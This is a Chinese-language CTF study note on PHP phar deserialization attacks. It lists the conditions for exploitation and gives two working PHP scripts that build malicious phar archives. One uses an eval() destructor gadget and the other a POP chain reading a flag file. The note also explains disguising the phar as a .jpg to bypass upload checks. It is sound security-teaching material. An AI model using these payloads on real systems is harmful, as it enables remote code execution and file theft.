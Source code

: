 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file

phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。





